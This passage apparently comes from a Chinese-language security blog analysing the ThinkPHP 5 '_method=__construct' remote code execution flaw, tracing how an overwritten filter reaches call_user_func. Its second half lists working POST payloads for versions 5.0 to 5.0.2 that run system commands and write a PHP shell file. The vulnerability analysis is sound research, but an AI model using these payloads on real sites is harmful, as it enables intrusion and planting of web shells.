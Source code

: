 而在 ThinkPHP5 完整版中，定义了验证码类的路由地址`?s=captcha`，默认这个方法就能使`$dispatch=method`从而进入`Request::instance()->param()`。

我们继续跟进`Request::instance()->param()`

![image](https://y4er.com/img/uploads/20191127220215.jpg)

执行合并参数判断请求类型之后return了一个`input()`方法，跟进

![image](https://y4er.com/img/uploads/20191127229199.jpg)

将被`__contruct`覆盖掉的filter字段回调进`filterValue()`，这个方法我们需要特别关注了，因为 `Request` 类中的 param、route、get、post、put、delete、patch、request、session、server、env、cookie、input 方法均调用了 `filterValue` 方法，而该方法中就存在可利用的 `call_user_func` 函数。跟进

![image](https://y4er.com/img/uploads/20191127223843.jpg)

`call_user_func`调用`system`造成rce。

梳理一下：`$this->method`可控导致可以调用`__contruct()`覆盖Request类的filter字段，然后App::run()执行判断debug来决定是否执行`$request->param()`，并且还有`$dispatch['type']` 等于`controller`或者 `method` 时也会执行`$request->param()`，而`$request->param()`会进入到`input()`方法，在这个方法中将被覆盖的`filter`回调`call_user_func()`，造成rce。

最后借用七月火师傅的一张流程图
![image](https://y4er.com/img/uploads/20191127228626.jpg)

## method __contruct导致的rce 各版本payload
一个一个版本测试，测试选项有命令执行、写shell、debug选项
### 5.0
debug 无关
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
### 5.0.1
debug 无关
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
### 5.0.2
debug 无关
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
```